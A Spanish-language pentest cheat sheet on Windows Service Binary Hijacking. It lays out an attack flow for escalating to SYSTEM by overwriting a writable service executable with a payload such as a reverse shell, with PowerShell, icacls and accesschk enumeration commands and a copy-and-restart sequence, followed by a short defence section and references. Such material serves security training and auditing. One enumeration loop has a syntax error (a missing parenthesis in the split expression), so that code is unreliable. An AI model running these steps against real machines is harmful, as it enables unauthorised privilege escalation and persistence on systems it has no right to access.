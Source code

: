 ## Service Binary Hijacking - Cheat Sheet

### Concepto

Service Binary Hijacking es una técnica de persistencia o escalada de privilegios que aprovecha servicios de Windows mal configurados para ejecutar código arbitrario con privilegios elevados. Esto ocurre cuando el ejecutable configurado en un servicio puede ser reemplazado o redirigido hacia uno malicioso por un atacante con permisos de escritura.

### Requisitos

* El atacante debe tener acceso a una sesión interactiva en el sistema.
* Permisos de escritura sobre el binario del servicio o la carpeta donde reside.
* Capacidad de reiniciar el servicio (opcional, si el servicio se reinicia automáticamente).
* El servicio debe estar configurado para ejecutarse con privilegios elevados (e.g., LocalSystem).

### Flujo de ataque

1. **Enumerar servicios vulnerables**: Buscar servicios que corran como SYSTEM o usuarios privilegiados y cuyos binarios sean modificables por usuarios de bajo privilegio.
2. **Verificar permisos sobre el binario**: Determinar si el usuario tiene permisos de escritura sobre el ejecutable configurado.
3. **Reemplazar el binario**: Sustituir el binario legítimo por uno malicioso (e.g. una reverse shell o payload).
4. **Reiniciar el servicio**: Activar el servicio para ejecutar el binario malicioso con privilegios elevados.
5. **Obtener acceso**: Establecer una shell elevada o mantener persistencia.

### Herramientas útiles

* `accesschk` (Sysinternals): Para verificar permisos sobre archivos/bibliotecas.
* `PowerUp` (PowerShell): Para automatizar la búsqueda de servicios vulnerables.
* `SetACL`: Para comprobar o modificar ACLs.
* `Process Monitor`: Para observar rutas de ejecución y permisos.
* `sc.exe`: Comando nativo para controlar servicios.
* `Get-Service`, `Get-WmiObject`, `Get-CimInstance`: Cmdlets de PowerShell para enumeración.

### Comandos de enumeración

```powershell
# Listar todos los servicios y sus rutas
Get-WmiObject win32_service | Select-Object Name, StartName, PathName | Format-Table -AutoSize

# Filtrar servicios con binarios en rutas potencialmente inseguras
Get-WmiObject win32_service | Where-Object { $_.PathName -match "Users|Temp|\ProgramData" } | Select Name, StartName, PathName

# Revisar permisos sobre el binario
$services = Get-WmiObject win32_service
foreach ($s in $services) {
  $path = $s.PathName -replace '"','' -split ' ')[0]
  if (Test-Path $path) {
    Write-Output "Checking $($s.Name): $path"
    icacls $path
  }
}

# Enumeración rápida con PowerUp
Invoke-AllChecks | Out-File powerup_enum.txt

# Usar accesschk para revisar permisos
accesschk.exe -uwcqv "USERNAME" "C:\Ruta\al\servicio.exe"
```

### Comandos útiles

```powershell
# Cambiar binario (requiere permisos de escritura)
copy C:\Users\user\payload.exe "C:\Program Files\Vulnerable Service\service.exe"

# Reiniciar servicio
sc stop NombreDelServicio
sc start NombreDelServicio
```

### Indicadores clave de vulnerabilidad

* El servicio corre como `LocalSystem` o `NT AUTHORITY\SYSTEM`.
* El binario se encuentra en una ruta donde el usuario actual tiene permisos de escritura.
* No hay verificación de integridad del binario.

### Detección / Defensa

* Monitoreo de cambios en binarios de servicios.
* Uso de AppLocker o Software Restriction Policies.
* Control estricto de ACLs en archivos binarios.
* Configuración de servicios con rutas seguras y permisos mínimos.

### Referencias

* [https://attack.mitre.org/techniques/T1574/010/](https://attack.mitre.org/techniques/T1574/010/)
* [https://book.hacktricks.xyz/windows-hardening/privilege-escalation/service-binary-path-hijacking](https://book.hacktricks.xyz/windows-hardening/privilege-escalation/service-binary-path-hijacking)
